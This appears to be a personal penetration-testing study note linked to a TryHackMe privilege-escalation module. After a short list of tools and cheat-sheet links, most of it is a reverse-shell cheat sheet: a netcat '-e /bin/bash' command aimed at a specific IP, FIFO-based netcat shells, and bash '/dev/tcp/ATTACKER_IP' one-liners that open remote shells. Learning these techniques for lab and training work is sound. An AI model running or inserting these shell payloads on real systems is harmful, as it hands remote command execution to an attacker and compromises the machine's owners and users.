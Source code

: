 - [Privilege Escalation - TryHackMe](https://tryhackme.com/r/module/privilege-escalation-and-shells)
- Tools:
	- netcat: nc, ncat
	- socat: netcat on steroids
	- metasploit - multi/handler - metasploit listener
	- msfvenom - payload generator
	- [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
	- [PentestMonkey Reverse Shell cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), [pentestmonkey reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- kali: **/usr/share/webshells**
	- code for shell: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
	- [socat static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

  
nc 10.17.27.198 1234 -e /bin/bash

---

## Reverse shell:

- Netcat

```sh
# netcat listener
nc -lvnp 443

# Connect to nectcat listener
nc <IP> 443
```

- FIFO
```sh
# Listener
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# Connect to FIFO listener
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP> <port> >/tmp/f


# Reverse shell
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# bind shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

```

- TCP device stream
```sh

# using bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
# or
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5


# Starting shell using a different file descriptor
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done

# or
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196

```